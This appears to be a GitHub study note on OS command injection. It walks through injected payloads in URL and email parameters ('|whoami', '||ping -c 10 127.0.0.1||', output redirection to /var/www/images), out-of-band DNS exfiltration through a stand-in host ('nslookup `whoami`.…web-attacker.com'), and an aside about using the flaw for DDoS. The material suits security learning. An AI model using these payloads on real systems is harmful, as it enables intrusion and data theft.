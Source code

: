 # OS command injection
```
OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary 
operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data
```
```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```
1. Lets take the above url as an example here the ProductID and StoreID are called using the backend OS commands
2. If the application implements no defenses against OS command injection, an attacker can submit the following input to execute an arbitrary command:
```
& echo aiwefwlguh &
```
3. Here echo is an os command which is used to read out 'aiwefwlguh' and & is usewde as an shell command separator. 
4. now if we change the above url to: 
```
https://insecure-website.com/stockStatus?productID=381&storeID=1|whoami
or
https://insecure-website.com/stockStatus?productID=381&storeID=1|echo Hello
```
5. Then the Vulnerable Application executes the StoreID's expected  **1** value and also the **echo/whoami** command which we supplied, at the same time  

## Blind OS command injection vulnerabilities
1. Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response.
2. so Generally we Find a parameter that will reflect the user supplied data in the Server Side and try to make a Time Delay attack
```
Lets take an email parameter email=happy@gmail.com
payload used:-ping -c 10 127.0.0.1
final cmd:- email=x||ping+-c+10+127.0.0.1||
This will create a 10s time delay so if the cmd works then we can put mallicious DDOS attacks through it 
```

## Exploiting blind OS command injection by redirecting output
```
1. Modify the email parameter, changing it to: email=||whoami>/var/www/images/output.txt||
2. then go to the application and capture the request where the image of a product loads
3. change the filename parameter to output.txt
```

## Exploiting blind OS command injection using out-of-band (OAST) techniques
Use the same Technique this tim ewe will be using Burp collaborator or any own website where we can monitor the DNS requests
```
& nslookup kgji2ohoyw.web-attacker.com &
```
The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This will cause a DNS lookup to the attacker's domain containing the result of the whoami command:
```
wwwuser.kgji2ohoyw.web-attacker.com
```

References:-
1. https://hackerone.com/reports/685447

